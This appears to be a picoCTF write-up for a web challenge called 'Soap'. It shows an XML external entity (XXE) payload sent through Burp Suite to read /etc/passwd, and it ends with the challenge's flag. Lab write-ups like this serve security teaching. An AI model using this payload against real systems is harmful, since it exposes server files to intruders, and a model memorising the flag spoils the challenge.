 # **Soap**

## **Overview:**
---
Category: Web Exploitation

Points: 100

## **Description**
---
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?


## **Hints**
XML external entity Injection

## **Approach**

I used Burp Suite to solve this. Open burp suite and turn on the intercept and login the page on the browser then send it to repeater. With the hint about XML injection, i search and found this line on [port swigger](https://portswigger.net/web-security/xxe):
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
So i used it in post session:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```
Send it and we got the flag at the bottom line of the reponse.

## **Flag**
---
>**picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}**









